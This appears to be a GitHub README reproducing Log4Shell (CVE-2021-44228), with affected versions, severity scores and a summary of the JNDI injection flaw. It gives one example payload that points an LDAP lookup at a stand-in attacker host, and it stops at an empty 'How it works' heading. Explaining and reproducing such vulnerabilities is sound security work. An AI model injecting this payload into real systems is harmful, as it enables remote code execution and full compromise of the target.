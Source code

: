 # CVE Reproduce: Log4Shell (CVE-2021-44228)

### Details

CVE ID: <br>
**CVE-2021-44228**

Vulnerability Name: <br>
**Log4Shell**

Vulnerable Software: <br>
**Apache Log4j 2 (versions 2.0-beta9 through 2.15.0, excluding security releases 2.12.2, 2.12.3, and 2.3.1)**

Vulnerability Type: <br>
**Remote Code Execution (via JNDI injection)**

Severity: <br>
**10.0 CVSS v3 (Critical), 9.3 CVSS v2 (High)**

---

### Summary

Log4Shell is a critical remote code execution vulnerability in Apache Log4j 2, a widely used Java logging library. The flaw arises because Log4j 2 interprets certain input strings containing ${jndi:...} as instructions to perform a JNDI lookup. This lookup can retrieve and execute code from an attacker-controlled server. Because many applications log user-controlled data (e.g., HTTP headers, form inputs), an attacker can exploit this without authentication by sending a crafted request, leading to full compromise of the target system.

This vulnerability was publicly in December 2021, and it quickly became one of the most severe and high-profile software vulnerabilities due to its ease of exploitation and widespread impact.

---

### Example of the Vulnerability

1. An attacker can exploit this vulnerability by crafting a malicious string such as:
   
   ```ruby
   ${jndi:ldap://attacker.com/a}
   ```
   
   This string can be included in various loggable fields such as HTTP headers, user-agent strings, or any other data that is logged by the vulnerable system.

3. When Log4j processes this string in a log message, it will perform a JNDI lookup to the LDAP server (in this case, `attacker.com`), which can return a payload instructing the vulnerable server to execute arbitrary code. This could lead to full system compromise.

---

### How it works
